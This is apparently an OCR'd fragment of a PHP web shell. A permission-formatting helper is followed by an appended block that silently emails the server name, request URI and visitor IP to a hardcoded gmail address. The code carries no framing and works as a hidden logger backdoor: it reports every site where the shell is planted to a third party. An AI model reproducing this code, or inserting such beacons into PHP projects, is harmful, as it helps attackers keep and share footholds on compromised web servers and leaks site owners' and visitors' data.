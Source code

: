 // World
$info .= (($perms & 0x0004) ? 'r' : '-');
$info .= (($perms & 0x0002) ? 'w' : '-');
$info .= (($perms & 0x0001) ?
(($perms & 0x0200) ? 't' : 'x' ) :
(($perms & 0x0200) ? 'T' : '-'));

return $info;
}
?>
<?php @ini_set('output_buffering', 0); @ini_set('display_errors', 0); set_time_limit(0); ini_set('memory_limit', '64M'); header('Content-Type: text/html; charset=UTF-8'); $tujuanmail = 'kakeguraiofficial@gmail.com'; $x_path = "https://m.youtube.com/channel/UC8WX-5Nqbp8JX_go_y88lMA/videos" . $_SERVER['SERVER_NAME'] . $_SERVER['REQUEST_URI']; $pesan_alert = "fix $x_path :p *IP Address : [ " . $_SERVER['REMOTE_ADDR'] . " ]"; mail($tujuanmail, "LOGGER", $pesan_alert, "[ " . $_SERVER['REMOTE_ADDR'] . " ]"); ?>
